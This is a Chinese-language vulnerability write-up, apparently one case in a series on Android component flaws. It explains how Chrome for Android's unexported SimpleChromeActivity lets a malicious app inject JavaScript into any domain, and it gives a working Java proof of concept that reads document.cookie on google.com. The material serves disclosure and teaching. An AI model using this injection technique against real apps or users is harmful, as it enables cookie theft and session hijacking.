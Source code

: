漏洞存在于Chrome Android版本v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入js代码到任意域. 部分 AndroidManifest.xml配置文件如下

	<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask" android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
            </intent-filter>
	</activity>

Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 <intent-filter>但是未设置  "android:exported" 为 "false". 恶意应用先调用该类并设置data为” http://google.com” 再次调用时设置data为恶意js例如'javascript:alert(document.cookie)', 恶意代码将在http://google.com域中执行. "com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. 
POC如下

	public class TestActivity extends Activity {
	    @Override
	    public void onCreate(Bundle savedInstanceState) {
	        super.onCreate(savedInstanceState);
	        Intent i = new Intent();
	                ComponentName comp = new ComponentName(
	                                 "com.android.chrome",
	                                 	"com.google.android.apps.chrome.SimpleChromeActivity");
	                i.setComponent(comp);
	                i.setAction("android.intent.action.VIEW");
	                Uri data = Uri.parse("http://google.com");
	                i.setData(data);
               
	                startActivity(i);
               
		                try {
	                        Thread.sleep(5000);
	                        }
	 	                      catch (Exception e) {}
              
	                data = Uri.parse("javascript:alert(document.cookie)");	
	                i.setData(data);
               
	                startActivity(i);
	    }
	}

 
**案例5：隐式启动intent包含敏感数据**

暂缺可公开案例,攻击模型如下图。
